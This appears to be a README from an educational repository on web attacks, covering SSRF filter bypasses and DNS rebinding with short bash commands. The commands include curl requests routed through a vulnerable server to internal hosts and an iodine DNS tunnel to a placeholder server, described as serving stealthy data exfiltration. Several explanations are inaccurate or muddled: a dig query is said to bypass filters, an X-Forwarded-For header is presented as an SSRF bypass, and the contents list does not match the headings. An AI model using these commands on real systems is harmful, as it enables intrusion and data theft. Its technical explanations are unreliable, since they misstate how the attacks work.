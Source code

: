 # Introduction to Web Attacks

This repository is dedicated to providing information and examples about various types of web attacks. Web attacks are a major concern in today's internet era, where attackers exploit vulnerabilities in web applications to gain unauthorized access, steal sensitive data, or disrupt services.

## Contents

1. [SSRF Basic Filter Bypasses](#ssrf-basic-filter-bypasses)
2. [DNS Rebinding: SSRF Filter Bypass](#dns-rebinding-ssrf-filter-bypass)
3. [DNSbinding: Same-Origin Policy Bypass](#dns-rebinding-same-origin-policy-bypass)
4. [DNS Rebinding: Tools & Prevention](#dns-rebinding-tools--prevention)
5. [More to come...]

## SSRF with filter bypass via open redirection

Server-Side Request Forgery (SSRF) remains a potent threat to web security. Grasping the essentials of basic filter bypass techniques forms the foundation of effective penetration testing.

### Example Command:

```bash
curl -i http://vulnerable-server.local/request?url=http://internal-server.local/
```

- ![SSRF Basic Command Screenshot](assets/images/ssrf_basic_command.png)
- *Description: This command employs `curl` to access a URL via a susceptible server, exploiting inadequate input validation.*

## DNS Rebinding: SSRF Filter Bypass

DNS Rebinding enhances SSRF attacks by circumventing only DNS-result-checked filters at request time. This section details this tactic through practical commands.

### Commands:

```bash
dig +short attacker-controlled-domain.com
```

- ![DNS Rebinding SSRF Command Screenshot](assets/images/dns_rebinding_ssrf_command.png)
- *Description: This command uses `dig` to inquire an attacker-controlled domain that alternates IP addresses, thus manipulating DNS responses and bypassing SSRF filters.*

```bash
curl -H "X-Forwarded-For: internal-server.local" http://vulnerable-server.local/api
```

- ![SSRF Header Exploit Screenshot](assets/images/ssrf_header_exploit.png)
- *Description: Demonstrates the bypass of SSRF protection via HTTP headers, using `X-Forwarded-For` to masquer as an internal entity.*

## DNS Rebinding: Same-Origin Policy Bypass

The Same-Origin Policy is a vital browser security protocol. DNS Rebinding attacks can bypass this policy to exploit vulnerabilities.

### Test Command:

```bash
python -m SimpleHTTPServer
```

- ![SOP Bypass Command Screenshot](assets/images/sop_bypass_command.png)
- *Description: Establishes a local server to check cross-origin resource sharing (CORS) issues exploitable via DNS Rebinding.*

## DNS Rebinding: Tools & Prevention

Understanding both offensive and defensive tools is crucial in mitigating DNS Rebinding threats. The following tools and commands are recommended.

### Tool Example:

```bash
nslookup your-target-domain.com
```

- ![DNS Tool Command Screenshot](assets/images/dns_tool_command.png)
- *Description: This `nslookup` exploration helps pinpoint potential harmful DNS configurations susceptible to Rebinding attacks.*

```bash
nmap --script=dns-rebinding target-site.com
```

- ![DNS Rebinding Nmap Scan Screenshot](assets/images/dns_rebinding_nmap_scan.png)
- *Description: Utilizes Nmap’s DNS rebinding script to detect vulnerabilities on the target site.*

### Advanced DNS Tunneling Command:

```bash
iodine -f -P password -T CNAME tunnel.your-server.com
```

- ![Advanced DNS Tunneling Screenshot](assets/images/advanced_dns_tunneling.png)
- *Description: Sets up a DNS tunnel using `iodine`, allowing data encapsulation within DNS queries and responses for stealthy data exfiltration.*

## License

This project is under the MIT License. For more details, please refer to the [LICENSE.md](LICENSE.md) file.

This README is crafted to provide a comprehensive yet accessible guide. It serves as an invaluable resource for both novices and seasoned pentesters looking to deepen their understanding of sophisticated network security challenges.  
